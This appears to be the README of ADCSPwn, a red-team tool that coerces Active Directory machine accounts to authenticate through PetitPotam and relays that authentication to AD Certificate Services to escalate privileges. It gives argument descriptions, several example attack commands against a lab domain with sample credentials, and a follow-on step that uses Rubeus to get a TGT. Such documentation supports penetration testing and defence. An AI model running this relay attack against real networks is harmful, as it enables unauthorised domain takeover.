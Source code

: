 # ADCSPwn

A tool to escalate privileges in an active directory network by coercing authenticate from machine accounts (Petitpotam) and relaying to the certificate service.

## Usage

Run `ADCSPwn` on your target network.

```
Author: @_batsec_ - MDSec ActiveBreach
Contributor: @Flangvik -  TrustedSec

adcspwn.exe --adcs <cs server> --port [local port] --remote [computer]

Required arguments:
adcs            -       This is the address of the AD CS server which authentication will be relayed to.

Optional arguments:
port            -       The port ADCSPwn will listen on.
remote          -       Remote machine to trigger authentication from.
username        -       Username for non-domain context.
password        -       Password for non-domain context.
dc              -       Domain controller to query for Certificate Templates (LDAP).
unc             -       Set custom UNC callback path for EfsRpcOpenFileRaw (Petitpotam) .
output          -       Output path to store base64 generated crt.

Example usage:
adcspwn.exe --adcs cs.pwnlab.local
adcspwn.exe --adcs cs.pwnlab.local --port 9001
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --port 9001
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --output C:\Temp\cert_b64.txt
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --username pwnlab.local\mranderson --password The0nly0ne! --dc dc.pwnlab.local
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --dc dc.pwnlab.local --unc \\WIN-WORK01.pwnlab.local\made\up\share
```

Request a TGT with the base64 encoded certificate output using Rubeus.
